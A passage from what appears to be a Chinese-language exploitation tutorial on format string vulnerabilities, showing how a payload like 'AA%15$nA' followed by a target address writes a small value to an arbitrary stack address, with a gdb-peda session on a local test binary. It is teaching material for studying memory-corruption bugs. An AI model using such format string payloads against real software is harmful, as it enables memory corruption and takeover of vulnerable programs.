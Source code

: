 
对比 `printf()` 函数执行前后的输出，`printf` 首先解析 `%13$n` 找到获得地址 `0xffffd564` 的值 `0xffffd538`，然后跳转到地址 `0xffffd538`，将它的值 `0x88888888` 覆盖为 `0x00000020`，就得到 `arg2=0x00000020`。

### 覆盖任意地址内存

也许已经有人发现了一个问题，使用上面覆盖内存的方法，值最小只能是 4，因为单单地址就占去了 4 个字节。那么我们怎样覆盖比 4 小的值呢。利用整数溢出是一个方法，但是在实践中这样做基本都不会成功。再想一下，前面的输入中，地址都位于格式字符串之前，这样做真的有必要吗，能否将地址放在中间。我们来试一下，使用格式字符串 `"AA%15$nA"+"\x38\xd5\xff\xff"`，开头的 `AA` 占两个字节，即将地址赋值为 `2`，中间是 `%15$n` 占 5 个字节，这里不是 `%13$n`，因为地址被我们放在了后面，在格式字符串的第 15 个参数，后面跟上一个 `A` 占用一个字节。于是前半部分总共占用了 2+5+1=8 个字节，刚好是两个参数的宽度，这里的 8 字节对齐十分重要。最后再输入我们要覆盖的地址 `\x38\xd5\xff\xff`，详细输出如下：

```text
$ python2 -c 'print("AA%15$nA"+"\x38\xd5\xff\xff")' > text
$ gdb -q a.out
Reading symbols from a.out...(no debugging symbols found)...done.
gdb-peda$ b printf  
Breakpoint 1 at 0x8048350
gdb-peda$ r < text  
[----------------------------------registers-----------------------------------]
EAX: 0xffffd564 ("AA%15$nA8\325\377\377")
EBX: 0x804a000 --> 0x8049f14 --> 0x1
ECX: 0x1
EDX: 0xf7f9883c --> 0x0
ESI: 0xf7f96e68 --> 0x1bad90
EDI: 0x0
EBP: 0xffffd5f8 --> 0x0
ESP: 0xffffd52c --> 0x8048520 (<main+138>:      add    esp,0x20)
EIP: 0xf7e27c20 (<printf>:      call   0xf7f06d17 <__x86.get_pc_thunk.ax>)
EFLAGS: 0x292 (carry parity ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0xf7e27c1b <fprintf+27>:     ret
   0xf7e27c1c:  xchg   ax,ax
   0xf7e27c1e:  xchg   ax,ax
=> 0xf7e27c20 <printf>: call   0xf7f06d17 <__x86.get_pc_thunk.ax>
   0xf7e27c25 <printf+5>:       add    eax,0x16f243
   0xf7e27c2a <printf+10>:      sub    esp,0xc
   0xf7e27c2d <printf+13>:      mov    eax,DWORD PTR [eax+0x124]
   0xf7e27c33 <printf+19>:      lea    edx,[esp+0x14]
No argument
[------------------------------------stack-------------------------------------]
0000| 0xffffd52c --> 0x8048520 (<main+138>:     add    esp,0x20)
0004| 0xffffd530 --> 0xffffd564 ("AA%15$nA8\325\377\377")
0008| 0xffffd534 --> 0x1
0012| 0xffffd538 --> 0x88888888
0016| 0xffffd53c --> 0xffffffff
0020| 0xffffd540 --> 0xffffd55a ("ABCD")
0024| 0xffffd544 --> 0xffffd564 ("AA%15$nA8\325\377\377")
0028| 0xffffd548 --> 0x80481fc --> 0x38 ('8')
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0xf7e27c20 in printf () from /usr/lib32/libc.so.6
gdb-peda$ x/20x $esp
0xffffd52c:     0x08048520      0xffffd564      0x00000001      0x88888888
0xffffd53c:     0xffffffff      0xffffd55a      0xffffd564      0x080481fc
0xffffd54c:     0x080484b0      0xf7ffda54      0x00000001      0x424135d0
0xffffd55c:     0x00004443      0x00000000      0x31254141      0x416e2435
0xffffd56c:     0xffffd538      0xffffd500      0x00000001      0x000000c2
gdb-peda$ finish
Run till exit from #0  0xf7e27c20 in printf () from /usr/lib32/libc.so.6
[----------------------------------registers-----------------------------------]
EAX: 0x7
EBX: 0x804a000 --> 0x8049f14 --> 0x1
ECX: 0x0
EDX: 0xf7f98830 --> 0x0
```